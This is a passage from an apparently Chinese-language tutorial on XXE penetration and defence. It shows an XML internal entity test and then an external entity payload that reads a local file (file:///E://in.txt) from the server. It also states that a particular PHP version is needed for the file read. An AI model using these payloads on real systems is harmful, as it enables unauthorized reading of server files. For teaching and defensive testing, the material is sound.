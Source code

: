 测试发现可以识别xml代码。比如这里定义一个实体hacker

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  hacker "wuya test"> ]>
<name>&hacker;</name>
```

![image-20240803192535459](XXE渗透与防御/image-20240803192535459.png)	

注意:利用外部实体读取本地文件，需要使用php5.4.45nts版本才行。

也可加载外部实体，来获得本地服务器的文件内容。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[<!ENTITY  xxe SYSTEM "file:///E://in.txt"> ]>
<login>&xxe;</login>
```
